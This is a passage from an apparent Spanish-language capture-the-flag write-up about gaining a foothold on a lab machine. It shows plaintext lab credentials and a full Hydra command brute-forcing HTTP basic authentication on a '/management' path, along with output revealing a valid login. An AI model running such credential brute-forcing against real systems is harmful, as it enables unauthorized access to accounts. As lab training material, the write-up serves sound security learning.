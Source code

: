 ```shell
}
{
  "name": "Dory",
  "password": "5y:!xa=ybfe)/QD"
}
```

# Foothold
Ahora teniendo una lista de usuarios y credenciales, podemos probar a autenticarnos en `/management` o entrar en el Ajenti.

Fijándonos en [este](http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/) post...

```shell
$ hydra -L users.txt -P credentials.txt -s 80 -f 10.129.96.55 http-get /managementHydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-05 23:02:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking http-get://10.129.96.55:80/management
[80][http-get] host: 10.129.96.55   login: Derry   password: rZ86wwLvx7jUxtch
[STATUS] attack finished for 10.129.96.55 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-05 23:02:22
```

Y al acceder a `/management` vemos un hipervínculo hacia `/management/config.json`
![Write-up Image](images/Screenshot_7.png)

Vemos unas credenciales justo debajo de lo que parece ser la configuración del `Ajenti` 
